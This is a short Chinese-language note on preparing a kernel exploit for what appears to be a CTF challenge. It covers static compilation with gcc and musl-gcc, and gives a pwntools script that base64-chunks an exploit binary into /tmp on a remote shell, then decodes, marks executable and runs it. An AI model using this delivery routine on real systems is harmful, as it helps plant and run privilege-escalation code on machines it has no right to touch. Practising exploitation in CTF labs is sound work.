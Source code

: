 ```yaml
---
title: exp编写
updated: 2022-08-27T16:59:17.0000000+08:00
created: 2022-08-24T20:19:36.0000000+08:00
---
```


# exp
## 驱动模块
![image1](../../../resources/image1-41.png)
## 编译
\# 静态编译 exp

gcc exp.c -static -o rootfs/exp
## 

远程设置了120s关机，glibc 编译出来的可执行文件会比较大没法传完，这里笔者选择使用 musl

musl-gcc exp.c -o exp -static -masm=intel

*来自 \<<https://www.anquanke.com/post/id/260055#h2-1>\>*

# pwntools
## base64传输程序并运行
from pwn import \*

import base64

\# context.log_level = "debug"

\# <https://www.anquanke.com/post/id/260055#h2-1>

\#读取exp文件，并base64加密

with open("./exp", "rb") as f:

exp = base64.b64encode(f.read())

\# p = remote("39.107.137.85", 35071)

p = process("./start.sh")

try_count = 0

chunkaddr = 0

while True:

p.sendline()

p.recvuntil("/ \$")

\# echo传输程序并保存

count = 0

for i in range(0, len(exp), 0x200):

p.sendline("echo -n \\"" + exp\[i:i + 0x200\].decode() + "\\" \>\> /tmp/b64_exp")

count += 1

log.info("count: " + str(count))

for i in range(count):

p.recvuntil("/ \$")

\# 解密并运行

p.sendline("cat /tmp/b64_exp \| base64 -d \> /tmp/exploit")

p.sendline("chmod +x /tmp/exploit")

p.sendline("/tmp/exploit "+str(chunkaddr+0x10\*try_count))

try_count=try_count+0x1000

break

p.interactive()

